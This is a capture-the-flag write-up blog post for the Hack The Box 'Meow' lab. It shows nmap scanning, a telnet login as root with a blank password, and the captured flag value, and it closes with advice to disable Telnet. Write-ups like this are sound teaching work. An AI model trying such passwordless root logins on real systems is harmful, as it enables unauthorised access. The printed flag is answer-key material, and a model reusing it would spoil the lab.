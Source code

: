 ```yaml
---
layout: post
title: "Meow – Hack The Box"
categories: htb
date: 2025-07-18
---
```


## 🧠 Summary

Meow is an easy Linux machine that highlights the risks of using **Telnet** with weak or no authentication. We'll start by connecting to the HTB network using OpenVPN, enumerate services using Nmap, exploit the open Telnet service, and capture the flag.

---

## 🛠️ Tools Used

- **OpenVPN** – Connect to HTB VPN
- **ping** – Test connectivity
- **nmap** – Scan for open ports
- **telnet** – Remote access to the target

---

## 🖥️ Target Info

- IP: `10.129.28.108`
- OS: Linux
- Service: Telnet (port 23)
- Difficulty: Very Easy
- Tags: Telnet, Protocols, Reconnaissance, Weak Credentials, Misconfiguration

---

## 🚀 Steps to Root

### 1. Connect to HTB VPN
Use the `.ovpn` file provided by Hack The Box:

```bash
sudo openvpn file-name.ovpn
```
![Connecting to HTB VPN](/assets/img/htb/meow/vpn.jpg)

### 2. Verify Connectivity
Check if you can reach the target IP using ping:

```bash
ping 10.129.28.108
```
![Verifying Connection](/assets/img/htb/meow/ping.jpg)

### 3. Scan the Target with Nmap
Run an Nmap scan to find open ports and services:
```bash
nmap -sV -Pn 10.129.28.108
```
Result (**telnetd** is a sign no password is needed for login):

![Nmap Result](/assets/img/htb/meow/nmapresult.jpg)

### 4. Exploit Telnet
Since Telnet is open, connect using:
```bash
telnet 10.129.28.108
```
When asked for a username:
```bash
login: root
Password: (leave blank and press Enter)
```
![Telnet Login](/assets/img/htb/meow/telnet.jpg)

### 5. Capture the Flag
Once inside:
```bash
ls -la
cat flag.txt
```
Flag:
```bash
b40abdf23665f766f9c61ecba8a4c19
```
![Flag Found](/assets/img/htb/meow/flag.jpg)

### Key Takeaways:
- Telnet is insecure and should not be used on modern systems.
- Always disable Telnet and replace it with SSH.
- Never allow root login without a password.
